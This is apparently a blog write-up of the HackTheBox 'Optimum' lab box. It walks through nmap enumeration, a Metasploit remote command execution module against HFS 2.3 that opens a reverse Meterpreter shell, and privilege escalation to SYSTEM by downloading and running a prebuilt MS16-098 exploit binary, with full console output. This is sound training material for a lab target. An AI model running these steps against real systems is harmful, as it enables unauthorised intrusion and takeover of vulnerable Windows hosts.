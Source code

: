 ```yaml
---
title: HackTheBox - Optimum
categories: writeups
layout: post
date: 2020-07-20 23:21 -0500
---
```

![Optimum](/assets/images/HTBoxes/Optimum/Optimum.png)

## Summary

Optimum is a fairly straightforward easy rated Windows box.  It involves simple enumeration and exploitation via a readily available metasploit module for a foothold.  For privilege escalation, it requires enumeration of patch levels of the system to determine a relevant exploit for escalation.

## Walkthrough

### Enumeration

Ran the usual nmap ``nmap -A -T4 -v 10.10.10.8``

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

I went to the website and saw it is running [HTTP File Server software](https://www.rejetto.com/hfs/) v2.3.

![Optimum-website](/assets/images/HTBoxes/Optimum/optimum-website.png)

I did a ``searchsploit hfs`` and found this version seems to be vulnerable.

### Foothold

I loaded up msfconsole via ``msfconsole -q`` and found that there is a RCE metasploit module that we can use to gain a foothold.

```console
msf5 > search hfs

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2
014-9390
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.2
SRVHOST => 10.10.14.2
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Using URL: http://10.10.14.2:8080/Kzl4K6JceE
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Kzl4K6JceE
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.8:49162) at 2020-07-20 21:32:54 -0500
[!] Tried to delete %TEMP%\ytefKHKvAX.vbs, unknown result
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

### User

I listed the kostas desktop folder and there was a user.txt.  No need to pivot so I grabbed the user.txt sitting in the Desktop folder.

### Root

Now that I had user it was time to enumerate to find a path to admin.  I used the windows exploit suggester [tool]( https://github.com/GDSSecurity/Windows-Exploit-Suggester).

To gather the systeminfo for it I just used the meterpreter session:

```console
meterpreter > execute -f cmd.exe -a "/c systeminfo > systeminfo.txt"
Process 2072 created.
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-07-27 06:31:27 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 06:57:16 -0500  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 05:58:52 -0600  hfs.exe
100666/rw-rw-rw-  3334    fil   2020-07-27 07:16:36 -0500  systeminfo.txt
100444/r--r--r--  32      fil   2017-03-18 07:13:18 -0500  user.txt.txt

meterpreter > download systeminfo.txt
[*] Downloading: systeminfo.txt -> systeminfo.txt
[*] Downloaded 3.26 KiB of 3.26 KiB (100.0%): systeminfo.txt -> systeminfo.txt
[*] download   : systeminfo.txt -> systeminfo.txt
```

To get the script to run, it requires python2 and a library dependency.  I suggest using ``pipenv`` in the cloned folder.

```console
pipenv --python 2.7
pipenv install xlrd
pipenv run python2 ./windows-exploit-suggester.py --database 2020-07-20-mssb.xls --systeminfo systeminfo.txt
```

After executing the script, there's quite a few suggestions.  The one in the official HTB writeup is MS016-032.  However, I had issues trying to get it to work from metasploit.  After some googling I decided to try MS16-098.

``wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe``

Back in my meterpreter session I did a ``upload 41020.exe`` then opened a shell to execute it.

```console
meterpreter > shell
Process 2336 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>.\41020.exe
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

After this I simply went to the Desktop directory and grabbed the root.txt flag.

## Lessons Learned

On this box:

* Refreshed metasploit module searching and exploit execution
* Learned about a new python based windows priv esc tool (the suggester tool)
